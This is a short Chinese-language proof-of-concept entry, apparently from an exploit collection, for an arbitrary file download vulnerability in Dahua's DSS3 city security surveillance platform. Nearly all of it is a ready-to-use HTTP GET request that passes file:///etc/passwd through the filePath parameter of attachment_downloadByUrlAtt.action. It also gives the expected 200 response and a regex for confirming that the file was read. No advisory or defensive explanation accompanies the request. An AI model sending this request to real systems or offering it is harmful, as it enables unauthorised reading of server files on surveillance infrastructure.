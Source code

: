 ﻿# 大华城市安防监控系统平台管理 DSS3 任意文件下载漏洞

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?root)(?=.*?bin).*?$

> 上传文件定位：

> 验证文件来源：大华城市安防监控系统平台管理 DSS3 任意文件下载漏洞.poc
